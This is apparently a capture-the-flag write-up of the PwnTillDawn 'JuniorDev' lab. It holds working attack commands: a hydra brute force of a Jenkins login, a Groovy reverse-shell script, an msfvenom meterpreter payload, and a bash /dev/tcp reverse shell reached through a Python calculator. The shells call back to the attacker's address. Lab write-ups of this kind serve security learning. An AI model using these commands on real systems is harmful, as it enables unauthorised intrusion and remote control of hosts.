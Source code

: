 ```yaml
---
title: JuniorDev Writeup PwnTillDawn
author: r0b0tG4nG
date: 2021-11-27 11:33:00 +0800
categories: [Blogging, PwnTillDawn]
tags: [writeups, jenkins, portfwd, python, hydra]
math: true
mermaid: true
image:
  src: ![image](https://user-images.githubusercontent.com/67085453/143765869-f4b70e8d-17d3-4e92-9311-e28dd167b4c9.png)
  width: 800
  height: 500
---
```


![image](https://user-images.githubusercontent.com/67085453/143765891-34e88ab8-1881-47a1-90de-e588c3eea925.png)<br>

**> Information Gathering**<br>
Started with the usual nmap scan and from the scan we can see active ports. port 22 (ssh) & port 30609 (jetty 9.4.27).<br>
![image](https://user-images.githubusercontent.com/67085453/143765662-e120b52a-a05e-4665-b2a1-55e4dacfe4d9.png)

<br>
Upon visiting the web service running on port _30609_, i found a login screen.<br>
![image](https://user-images.githubusercontent.com/67085453/143765631-f7e788fc-8e83-4b1c-a97b-a639e13632de.png)<br>


Since we dont have any credentials, the best option is to *bruteforce* the target web login. Below is the hydra command used<br>
`hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.150.150.38 -s 30609 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password"`<br>
![image](https://user-images.githubusercontent.com/67085453/143765717-ed681b4b-3abe-43cb-b3c7-609f419e7275.png)<br>

Hydra yield positive results. We have found the password for the admin user. The next step is to login on jetty webapp running on port 30609. *username == admin* & *password == matrix*<br>
![image](https://user-images.githubusercontent.com/67085453/143765743-22635b7b-a430-4f4a-889a-454bde37f372.png)<br>
     

The credentials worked we are logged in now.<br>
![image](https://user-images.githubusercontent.com/67085453/143765751-202149be-2d13-4ce7-b865-b7b839156884.png)<br>

After a short googling on how to abuse jenkins script console to rce we found a good post from <a href="https://github.com/gquere/pwn_jenkins">gquere</a>. With this information, we were able to build a script to test remote code execution on the target. <br>
![image](https://user-images.githubusercontent.com/67085453/143765761-0e7da699-8773-49fa-8df6-e511967f33a7.png)<br>


Now  that we can execute commands on the target, its time to spawn a reverse shell. Below is the script I used.
```shell
String host="10.66.67.114";  
int port=9001;  
String cmd="/bin/bash";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
<br>
![image](https://user-images.githubusercontent.com/67085453/143765793-ff14889e-8cdb-4b2b-b144-003ab641c429.png) <br>


**> Post Exploitation**<br>
After i got a shell, post enumeration phase begins. I transfered linpeas to the target, changer permissions and executed linpeas. In linpeas output, i found a port binded to the _loopback address(127.0.0.1:8080)_.<br>
![image](https://user-images.githubusercontent.com/67085453/143765907-412f03af-7170-4dc5-b840-ee0835a53718.png)<br> 

Port 8080 is mostly used for web services. To confirm, i tried `wget` on the ort since `curl` is not found on the target.<br>
![image](https://user-images.githubusercontent.com/67085453/143765930-93ced860-08cc-4b92-827d-24a5ff158593.png)<br>

Reading the fetched `index.html` from port 8080 indicates that there is a web webapp running internally.<br>
![image](https://user-images.githubusercontent.com/67085453/143765946-d1c2a430-0af0-49ab-b1fd-83f18ddc019c.png)<br>

To access this internal web service, we have to port-forward port 8080 from the target to our attacking machine. To do this, i created a linux payload using `msfvenom`. <br>
``msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.66.66.78 LPORT=9002 -f elf -o 9002msf``<br>
![image](https://user-images.githubusercontent.com/67085453/143765952-d511e7e9-e049-4a7a-9360-38e69b2548d4.png)<br>

The next thing to do is to transfer the payload to the target and execute it while msfconsole is listerning fortrt incoming connections.<br>
![image](https://user-images.githubusercontent.com/67085453/143765957-aa29bf3e-872b-4760-b63b-ffedb1e21e22.png)<br>

When the payload is executed on the target, we should recieve a connection back on `msfconsole`. Once the connection is in, we can port-forward the target intertnal port `8080` to our attacking machine using the `portfwd`command in msfconsole<br>
`portfwd add -l 8080 -p 8080 -r 127.0.0.1`<br>
![image](https://user-images.githubusercontent.com/67085453/143765963-00518744-c295-44f9-820a-9db9a7dcfcbf.png)<br>

Now that we the target port `8080` connected back to our attacking machine, wehn visited, we found a python maths console.<br>
![image](https://user-images.githubusercontent.com/67085453/143765968-cf05e59b-727e-4377-ac76-ba25ed07ce10.png)<br>

Since it's a simple python maths calculator, we can easily bypasss the pythin functions and gain a remote code execution. To do this, we will use `__import__("os").system("")`<br>

We created a bash file with contains our bash reverse liner. a simple bash script, transfered the bash file to the target. 
```shell
#!/bin/bash
bash -c  'bash -i>&/dev/tcp/10.66.66.78/9002 0>&1'
```
<br>

Once our bash file is on the target, we can execute the bash file using the pythin calculator. We simply do this using the command
`__import__("os").system("/bin/bash /tmp/shell.sh")`<br>
![image](https://user-images.githubusercontent.com/67085453/143765976-251cd43b-7e6d-4852-895b-6b2ba81033c9.png)<br><br>


Referrence: <a href="https://online.pwntilldawn.com/">PwnTillDawn Online battlefield</a>
